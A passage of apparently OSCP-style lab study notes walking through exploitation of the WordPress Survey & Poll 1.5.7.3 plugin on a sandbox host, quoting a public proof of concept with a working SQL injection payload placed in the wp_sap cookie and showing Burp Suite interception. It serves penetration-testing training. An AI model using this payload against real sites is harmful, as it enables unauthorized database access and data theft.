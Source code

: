  -  This search looks much more promising
  
  -    fourth and fifth result seem to be for our WordPress plugin
  -    fifth result, titled “Wordpress Plugin Survey & Poll 1.5.7.3”, also matches the version ofour plugin (1.5.7.3) that was found by WPScan

-    inspect the exploit to see if we find anything interesting

```bash
...  
# Description  
# The vulnerability allows an attacker to inject sql commands using a value of a  
# cookie parameter.  
# PoC  
# Step 1. When you visit a page which has a poll or survey, a question will be  
# appeared for answering.  
# Answer that question.  
  
# Step 2. When you answer the question, wp\_sap will be assigned to a value. Open  
# a cookie manager, and change it with the payload showed below;  
\["1650149780')) OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@@version,11#"\]  
# It is important that the "OR" statement must be 1=2. Because, application is  
# reflecting the first result of the query. When you make it 1=1, you should see a  
# question from firt record. Therefore OR statement must be returned False.  
# Step 3. Reload the page. Open the source code of the page. Search "sss\_params".  
# You will see the version of DB in value of sss\_params parameter.  
...
```

-    Skimming through the exploit does not mention if further authentication is required.

-    However, **a cookie needs to be set**

-    Let’s go to the plugin website and see if we can find any more information about it.

-    quick Google search for “Wordpress Survey & Poll” leads us to the plugin page

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/2.jpg)

-    We found a similar survey on the home page of sandbox.local.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/3.jpg)

-    Let’s open up Burp Suite, configure the proxy settings in Firefox, and intercept the communications when we interact with the survey

-    With the page loaded and Burp configured to intercept, we will click one of the options of the survey
-    This will result in a request captured in Burp
-    We will click Forward in Burp to continue the pageload.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/4.jpg)

-    when we reload the page, we notice the cookie that the exploit code mentioned was vulnerable.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/5.jpg)
